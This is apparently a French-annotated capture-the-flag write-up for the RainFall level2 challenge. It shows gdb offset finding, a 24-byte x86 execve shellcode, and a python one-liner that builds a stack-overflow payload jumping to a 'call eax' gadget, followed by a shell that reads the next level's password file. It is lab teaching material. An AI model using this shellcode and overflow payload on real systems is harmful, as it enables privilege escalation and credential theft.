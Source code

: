 ```shell
    Registers contain pattern buffer:
    # On l'a ! Il faut écrire 80 - len(shellcode) random chars avant l'addresse du call eax
    EIP+0 found at offset: 80
    # Comme on peut s'y attendre EBP se trouve 4 octets avant EIP
    EBP+0 found at offset: 76
    [...]

  # Ensuite, le shellcode
  gdb-peda$ shellcode generate x86/linux exec
  # x86/linux/exec: 24 bytes
  shellcode = (
      "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31"
      "\xc9\x89\xca\x6a\x0b\x58\xcd\x80"
  # Si on met bout à bout ça fait pour une longueur de 24:       "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80"
)
```

* On a donc tous les prérequis. En transformant en little indian l'addresse du call eax(\xcf\x84\x04\x08), on va pouvoir construire la string suivante:

```shell
  level2@RainFall:/tmp$ python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80" + "A" * (80 - 24) + "\xcf\x84\x04\x08"' > pattern2
```

```shell
level2@RainFall:/tmp$ cat /tmp/pattern2 - | ~/level2
  1�Ph//shh/bin��1ɉ�j
                   X̀AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAτ
whoami
  level3
cat /home/user/level3/.pass
  492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
# CTRL D
level2@RainFall:/tmp$ su level3
  Password: 492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
  RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
  No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level3/level3
level3@RainFall:~$
```